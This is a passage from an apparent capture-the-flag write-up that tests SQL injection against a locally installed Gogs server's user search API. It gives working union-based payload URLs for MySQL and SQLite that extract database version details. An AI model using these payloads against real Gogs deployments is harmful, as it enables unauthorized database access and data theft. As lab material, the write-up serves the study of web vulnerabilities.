 <img src="https://i.imgur.com/H928e2i.png"/>

We can now visit localhost:3000 to properly install gogs by setting up the database

<img src="https://i.imgur.com/Psrcq1d.png"/>

By deafult it choses SQLite3 so maybe the database being used on the target machine is not mysql but I'll just select mysql to see if the payload is working or not

<img src="https://i.imgur.com/mnjQG3C.png"/>

<img src="https://i.imgur.com/uUs6IyD.png"/>

And after that we'll see it installed and can test for sqli

<img src="https://i.imgur.com/FWcNDse.png"/>

Using the payload to print the databae version

```sql
http://127.0.0.1:3000/api/v1/users/search?q='/**/and/**/false)/**/union/**/
select/**/null,null,@@version,null,null,null,null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null,null/**/from
/**/mysql.db/**/where/**/('%25'%3D'
```


<img src="https://i.imgur.com/qTnj1TH.png"/>

We can then further get the database version and then further get the table and column names

```sql
http://127.0.0.1:3000/api/v1/users/search?q=%27/**/and/**/false)/**/union/**/select/**/null,null,database(),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null/**/where/**/(%27%25%27%3D%27
```

<img src="https://i.imgur.com/n70Zru0.png"/>

But this won't help us on the target machine as it wasn't working there so there's a possiblity that it's using sqlite3 as it's the default database for gogs, so I'll test the payload for SQLite as well but before that I'll need to re install gogs with sqlite3

<img src="https://i.imgur.com/dIwanGm.png"/>

After many trial and errors, I was able to get the correct payload for sqlite3 by printing `sqlite_version()` which it worked with `union/**/all/**/select`

```sql
http://127.0.0.1:3000/api/v1/users/search?q=%27)/**/union/**/all/**/select/**/null,null,group_concat(sqlite_version()),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null/**/--
```

<img src="https://i.imgur.com/XFYd767.png"/>
